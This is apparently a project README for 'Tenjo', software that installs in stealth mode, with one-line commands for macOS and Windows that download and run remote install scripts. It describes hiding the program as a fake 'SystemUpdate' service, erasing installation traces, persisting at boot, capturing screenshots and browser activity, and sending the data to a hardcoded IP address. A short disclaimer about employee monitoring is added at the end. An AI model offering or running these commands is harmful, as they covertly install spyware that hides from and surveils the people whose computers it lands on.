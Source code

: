 # Tenjo Stealth Installation Commands

## One-Line Remote Installation (Stealth Mode)

### macOS - Silent Installation
```bash
curl -sSL https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/install_stealth_macos.sh | bash -s true cleanup
```

### Windows - Silent Installation
```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/install_stealth_windows.bat' -OutFile '%TEMP%\install_stealth.bat'; cmd /c '%TEMP%\install_stealth.bat' true cleanup; del '%TEMP%\install_stealth.bat'"
```

## Manual Installation (if needed)

### macOS
1. Download repository
2. Navigate to client directory
3. Run: `bash install_stealth_macos.sh true cleanup`

### Windows
1. Download repository
2. Navigate to client directory
3. Run: `install_stealth_windows.bat true cleanup`

## Uninstallation Commands

### macOS
```bash
bash ~/.system_update/uninstall_stealth_macos.sh true
```

### Windows
```cmd
"%APPDATA%\SystemUpdate\uninstall_stealth_windows.bat" true
```

## Features

### ✅ Completely Silent Operation
- No user prompts or visible windows
- Runs hidden in background
- Auto-starts on boot/login
- No taskbar or system tray icons

### ✅ Stealth Installation
- Downloads and installs automatically
- Hides in system directories
- Removes installation traces
- Uses system service names

### ✅ Auto-Start Configuration
- **macOS**: LaunchAgent/LaunchDaemon
- **Windows**: Task Scheduler
- Starts automatically when computer boots
- Survives user logout/login

### ✅ Monitoring Capabilities
- 📸 Screenshots every 60 seconds
- 🌐 Browser activity tracking
- 💻 Process monitoring
- 📊 System statistics
- 📡 Data transmission to server

### ✅ Professional Disguise
- Service name: "SystemUpdate"
- Appears as legitimate system service
- Hidden from casual inspection
- Low resource usage

## Installation Locations

### macOS
- **User**: `~/.system_update/`
- **System**: `/Library/Application Support/SystemUpdate/`
- **Service**: `~/Library/LaunchAgents/com.system.update.agent.plist`

### Windows  
- **User**: `%APPDATA%\SystemUpdate\`
- **System**: `%PROGRAMDATA%\SystemUpdate\`
- **Service**: Task Scheduler `SystemUpdateService`

## Security Notes

⚠️ **This is monitoring software intended for legitimate employee monitoring purposes only**

- Only use on systems you own or have explicit permission to monitor
- Ensure compliance with local privacy laws
- Inform users of monitoring where legally required
- Use responsibly and ethically

## Technical Details

### Process Names
- **Main Process**: `stealth_main.py` / `python stealth_main.py`
- **Service Name**: `SystemUpdateService` / `com.system.update.agent`
- **Directory Name**: `SystemUpdate` / `.system_update`

### Network Communication
- Connects to: `http://103.129.149.67`
- Encrypted data transmission
- Automatic retry on connection failure
- Minimal bandwidth usage

### Logging
- Silent mode: Warnings and errors only
- Log location: `logs/stealth.log`
- Automatic log rotation
- No console output in stealth mode
